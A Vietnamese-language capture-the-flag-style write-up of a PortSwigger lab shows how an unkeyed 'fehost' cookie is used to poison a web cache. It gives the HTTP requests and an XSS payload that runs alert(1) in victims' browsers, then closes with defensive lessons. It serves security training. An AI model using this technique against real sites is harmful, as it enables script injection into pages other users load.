





# Write-up: Web cache poisoning with an unkeyed cookie

### Tổng quan
Khai thác lỗ hổng **Web Cache Poisoning** kết hợp **DOM-based XSS** trong ứng dụng web, nơi cookie `fehost` là unkeyed và được reflect trực tiếp vào trường `data` của frontend mà không được xử lý an toàn. Bằng cách poison cache với payload XSS `"}</script><script>alert(1)</script>` trong cookie `fehost`, kẻ tấn công khiến response cacheable chứa mã độc, được thực thi trong trình duyệt nạn nhân khi truy cập trang chủ.

### Mục tiêu
- Xác định cookie unkeyed `fehost`, poison cache với payload XSS `alert(1)` thông qua cookie này, khiến trang chủ thực thi mã độc trong trình duyệt nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác

#### 1. Kiểm tra xem có web cache tồn tại không
- Load lại trang chủ và bắt request `GET /`:  
  ```
  GET / HTTP/2
  Host: 0at9027b28cd9012x0yz567800ab00yx.web-security-academy.net
  Cookie: fehost=prod-cache-01
  ```  
- Quan sát: Cookie `fehost=prod-cache-01` được reflect trong trường `data` của frontend, tiềm ẩn nguy cơ XSS.  
  

- Thử nghiệm với payload:  
  ```
  GET /?x=20 HTTP/2
  Host: 0at9027b28cd9012x0yz567800ab00yx.web-security-academy.net
  Cookie: fehost="}</script><script>alert(1)</script>
  ```  
- Kết quả: Payload được reflect trong response, xác nhận xảy ra XSS.  
    
  

#### 2. Khai thác web cache
- Cài đặt lại payload để poison cache:  
  ```
  GET / HTTP/2
  Host: 0at9027b28cd9012x0yz567800ab00yx.web-security-academy.net
  Cookie: fehost="}</script><script>alert(1)</script>
  ```  
- **Giải thích**: Cookie `fehost` là unkeyed, không được include trong cache key, nên payload `"}</script><script>alert(1)</script>` được reflect vào response cacheable, gây ra XSS trong trình duyệt nạn nhân.  
  

- Kết quả: XSS thực thi thành công, `alert(1)` được chạy trong trình duyệt nạn nhân, lab hoàn thành.  
  

### Bài học rút ra
- Hiểu cách khai thác **Web Cache Poisoning** thông qua cookie unkeyed (`fehost`), chèn payload XSS vào response cacheable để thực thi mã độc trong trình duyệt nạn nhân.  
- Nhận thức tầm quan trọng của việc xác thực và lọc giá trị cookie, đồng bộ hóa cache key với các cookie được sử dụng, và vô hiệu hóa cache cho các endpoint động để ngăn chặn XSS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Web Cache Poisoning** thông qua cookie unkeyed, nhấn mạnh tầm quan trọng của việc cấu hình cache an toàn và xử lý cookie để ngăn chặn thực thi mã độc trong trình duyệt nạn nhân. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 10/2025.*